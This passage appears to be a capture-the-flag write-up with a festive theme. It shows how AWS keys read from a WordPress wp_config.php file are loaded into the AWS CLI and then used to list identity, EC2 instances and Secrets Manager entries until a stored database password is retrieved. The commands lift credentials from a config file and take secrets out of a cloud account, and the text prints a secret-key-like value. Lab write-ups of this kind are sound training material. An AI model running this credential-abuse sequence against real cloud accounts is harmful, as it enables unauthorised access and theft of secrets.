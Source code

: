5. Question: Find AWS Account ID.
```bash
$ cat wp_config.php
/* Add any custom values between this line and the "stop editing" line. */
define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
define('S3_UPLOADS_KEY', 'AKIAxxxxxxxxxxxxxxxxxx');
define('S3_UPLOADS_SECRET', 'Y+2fQBoJ+X9N0GzT4dF5kWE0ZX03n/KcYxkS1Qmc');
define('S3_UPLOADS_REGION', 'us-east-1');

$ wp_backup aws configure --profile hr
AWS Access Key ID [****************YAOI]: AKIAxxxxxxxxxxxxxxxxxx
AWS Secret Access Key [****************1Qmc]: Y+2fQBoJ+X9N0GzT4dF5kWE0ZX03n/KcYxkS1Qmc
Default region name [us-east-1]: us-east-1
Default output format [None]:

$ cd ~/.aws
$ aws sts get-access-key-info --access-key-id AKIAxxxxxxxxxxxxxxxxxx --profile hr
"Account": "xxxxxxxxxxxx"
```

---

6. Question: Find Username for access-key.
- Answer: ElfMcHR@bfc.com
```bash
$ aws sts get-caller-identity --profile hr
{
    "UserId": "AIDAQI52OJVCFHT3E73BO",
    "Account": "xxxxxxxxxxxx",
    "Arn": "arn:aws:iam::xxxxxxxxxxxx:user/example@company.com"
}
```

---

7. Under the TAGs, Find the name of the instance?
```bash
$ aws ec2 describe-instances --output text --profile hr
# TAGS    Name    HR-Portal
```

---

8. Find database password stored in Secrets Manager.
```bash
$ aws secretsmanager help
$ aws secretsmanager list-secrets --profile hr 
"Name": "HR-Password"

$ aws secretsmanager get-secret-value --secret-id HR-Password --profile hr
"SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives."

$ aws secretsmanager get-secret-value --secret-id HR-Password --profile hr --region eu-north-1
"SecretString": "example-password"
```